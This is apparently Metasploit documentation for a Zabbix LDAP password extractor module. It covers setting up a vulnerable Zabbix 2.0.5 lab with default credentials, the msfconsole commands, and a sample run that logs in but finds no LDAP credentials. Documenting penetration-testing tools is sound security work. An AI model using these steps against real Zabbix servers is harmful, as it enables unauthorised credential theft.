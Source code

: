 
## Vulnerable Application

  Download [Zabbix 2.0.5](https://sourceforge.net/projects/zabbix/files/ZABBIX%20Latest%20Stable/2.0.5/) from Sourceforge, the main Zabbix site doesn't have a download link.
  The .iso login is root:zabbix, and the default Zabbix frontend login is Admin:zabbix ([section 2](http://zabbix.com/documentation/2.0/manual/appliance))
  Configure Zabbix:
    1. Login to the zabbix web client
    2. Click Administration, Authentication, select LDAP
    3. Fill in the fields:

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/http/zabbix_ldap_password_extractor```
  4. Do: ```set rhost```
  5. Do: ```run```
  6. Check out the credentials

## Scenarios

When the values are all blank, but login is success:

```
resource (zabbix.rc)> use auxiliary/admin/http/zabbix_ldap_password_extractor
resource (zabbix.rc)> set rhost 192.168.2.245
rhost => 192.168.2.245
resource (zabbix.rc)> set verbose true
verbose => true
resource (zabbix.rc)> run
[*] Attempting Login: Admin:zabbix
[*] Login Success
[*] No LDAP Host Found
[*] No LDAP Bind Domain Found
[*] No LDAP Bind Password Found
[*] No Login (user) found
[*] Auxiliary module execution completed
```
